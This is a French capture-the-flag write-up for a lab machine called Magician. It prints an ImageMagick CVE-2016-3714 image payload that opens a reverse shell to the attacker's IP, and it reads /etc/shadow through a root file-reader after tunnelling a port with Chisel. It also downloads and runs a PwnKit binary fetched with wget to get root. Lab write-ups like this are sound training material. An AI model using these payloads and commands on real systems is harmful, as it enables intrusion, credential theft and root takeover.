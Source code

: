 # Magician VM !

La VM traite de ImageMagik et de la CVE-2016-3714.
On va tester tout cela ! :)

# Enum
## Nmap
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-05 08:11 EST
Nmap scan report for 10.10.56.0
Host is up (0.034s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE    VERSION
21/tcp   open  ftp        vsftpd 2.0.8 or later
8080/tcp open  http-proxy
8081/tcp open  http       nginx 1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 56.07 seconds
```
On vois ici 3 port, le 21 pour FTP, et 8080,8081 pour un serveur web.
URL : http://10.10.56.0:8081/

Il s'agit d'un site qui convertie les images .png en .jpg.

# Exploit
Il parle de la **CVE-2016-3714** qui est une CVE concernant ImageMagik et permet d'executer des commandes via une fausse image (ou une vrai piéger :))

Plus d'info et exploit [ici](https://www.exploit-db.com/exploits/39767)
On va utiliser le payload trouvable sur le repo de [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Picture%20ImageMagick)

On créer donc un fichier avec l'extension **.png**
```
nano test.png
```
Puis on colle le payload dedans:
```
push graphic-context
encoding "UTF-8"
viewbox 0 0 1 1
affine 1 0 0 1 0 0
push graphic-context
image Over 0,0 1,1 '|/bin/sh -i > /dev/tcp/10.14.59.209/1234 0<&1 2>&1'
pop graphic-context
pop graphic-context
```
Ensuite, il sufit d'ouvrir un listener:
```
nc -lnvp 1234
```
puis d'upload le fichier sur le site, et nous voila avec un revshell :
```
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 1234
listening on [any] 1234 ...
connect to [10.14.59.209] from (UNKNOWN) [10.10.56.0] 43670
sh: cannot set terminal process group (986): Inappropriate ioctl for device
sh: no job control in this shell
sh-4.4$ 
```
# Privesc to root !
Dans le dossier /home de l'user **magician** on retrouve ce fichier:
```
spring-boot-magician-backend-0.0.1-SNAPSHOT.jar
```
On regarde ce qu'il y a dedans a la recherche d'information utile:
```
jar -tf spring-boot-magician-backend-0.0.1-SNAPSHOT.jar
```
Plein de chose mais rien d'utile.

Je lance copie Linpeas et l'execute, il trouve un truc intéressant:
```                                                                                                            
tcp        0      0 0.0.0.0:8081            0.0.0.0:*               LISTEN      -                                                                                                         
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:6666          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::8080                 :::*                    LISTEN      986/java            
tcp6       0      0 :::21                   :::*                    LISTEN      -
```
Le port 6666 est suspect.

Je vais le rerouter vers moi afin de voir ce qu'il y a derriere, pour cela, je vais utiliser l'outil [Chisel](https://github.com/jpillora/chisel) qui est un tunel TCP/UDP.
Je démarre le tunel sur ma machine :
```
chisel server -p 9001 --reverse
2023/12/05 11:10:57 server: Reverse tunnelling enabled
2023/12/05 11:10:57 server: Fingerprint ad4CZVn3A4nUKA0Xmv8X+I1tceh7Oczf2HmRcETN7xw=
2023/12/05 11:10:57 server: Listening on http://0.0.0.0:9898
```
Je copie et lance Chisel en mode client sur la machine cible:
```
./chisel client 10.14.59.209:9001 R:9002:127.0.0.1:6666
```
Je tombe sur une page web qui me demande d'entrer le nom d'un fichier.
J'entre **/etc/passwd** et cela me le renvoi encoder en base64.
Je tente avec **/etc/shadow** et je le recoit aussi en base64.

Cela veux dire que cette application a les droits **root**.

Je regarde tape donc **/root/root.txt**
Et je récupère bien le flag :
```
THM{magic_*******************_mad}
```
# Root cheat mod !
Rien de plus a dire :
```
magician@magician:/tmp$ wget 10.14.59.209/PwnKit
--2023-12-05 10:06:32--  http://10.14.59.209/PwnKit
Connecting to 10.14.59.209:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 18040 (18K) [application/octet-stream]
Saving to: ‘PwnKit’

PwnKit              100%[===================>]  17.62K  --.-KB/s    in 0.03s   

2023-12-05 10:06:32 (508 KB/s) - ‘PwnKit’ saved [18040/18040]

magician@magician:/tmp$ chmod +x PwnKit 
magician@magician:/tmp$ ./PwnKit 
root@magician:/tmp#
```
